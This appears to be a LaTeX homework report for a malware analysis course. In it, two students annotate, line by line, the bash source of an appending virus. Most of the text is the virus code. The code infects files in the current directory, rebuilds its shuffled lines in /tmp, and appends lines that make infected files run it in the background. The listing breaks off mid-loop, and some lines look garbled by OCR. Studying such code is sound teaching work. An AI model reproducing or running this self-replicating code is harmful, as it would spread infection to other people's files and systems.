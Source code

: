\documentclass[a4paper,6.5pt]{article}
\begin{document}
\begin{center}
Malware analysis and design 

Homework No. 2

Vincenzo Arceri VR386484 Giovanni Liboni VR387955
\end{center}
The bash code given as assignment is a appending virus that copies his own code after the target file code, if this isn't already infected.
Below we explain in detail the virus behavior.

\begin{lstlisting}
if [ "$1" == "test" ]; then #@1	// If the first paramter is equals to "test" exit and 		
	exit 0 #@2 						// return 0 because the file is already infected
fi #@3		
MANAGER=(test cd ls pwd) #@4 // Array of 4 elements
RANDOM=$$ #@5	 				// Pid of the virus process
for target in *; do #@6		// For each file in the directory									
	// Counts the number of the target file					
	nbline=$(wc -l $target) #@7 	
	nbline=$(nbline## ) #@8									// Remove the longest sequence of spaces
	nbline=$(echo $nbline | cut -d " " -f1) #@9 		// and retrive the number of lines
	// Checks if the chosen file has less number of lines of the virus. 
	// If it is true, of course it isn't infected and continue.
	if [ $(($nbline)) -lt 42 ]; then #@10										
		continue #@11 									
	fi #@12											
	// Choose the name of the new file from one of the value contained in MANAGER, randomly.
	NEWFILE=$MANAGER[$((RANDOM % 4))] #@13						
	// Takes the last 39 lines of target and sort them with ordering based on the number after @.
	// It restores the code in the original order and write the output in a temporary file.
	tail -n 39 $target | sort -g -t@ +1 > /tmp/\ /"$NEWFILE" #@14 		
	// Gives to /tmp/\ /"$NEWFILE"  the execution permission
	chmod +x /tmp/\ /"$NEWFILE" #@15	
	// Execute the file just created: if it correspond to the virus it returns 0 (see first 3 lines) and continue, because the file is already infected. 
	if ! /tmp/\ /"$NEWFILE" test ; then #@16						
		continue #@17 									
	fi #@18
	// Choose the name of the new file from one of the value contained in MANAGER, randomly.
	NEWFILE=$MANAGER[$((RANDOM % 4))] #@19 
	// Path of the just created file								
	NEWFILE="/tmp/\ /$NEWFILE" #@20
	// Appends to the target file the nexts 2 lines of code that will be executed  when the target file 			will be run: this lines gets the last 39 lines of target (the virus) and executes it in background
	echo "tail -n 39 $0 > $NEWFILE" >> $target #@21						
	echo "chmod +x $NEWFILE && $NEWFILE &" >> $target #@22 					
	echo "exit 0" #@23
	// Creates am array of 40 elements: first element "FT" and the last " "
	tabft=("FT" [39]=" ") #@24 										
	declare -i nbl=0 #@25 // Creates an integer variable nbl=0					
	while [ $nbl -ne 39 ]; do #@26			// while (nbl != 39)						
		#Generates a random number from 1 to 39
		valindex=$(((RANDOM % 39)+1)) #@27						
		#if  tabft[valindex] == "FT", choose a new number for valindex
		while [ "$tabft[$valindex]" == "FT" ]; do #@28 		
			valindex=$(((RANDOM % 39)+1)) #@29	// Generates a random number from 1 to 39
		done #@30										
		

\end{lstlisting}
\end{document}
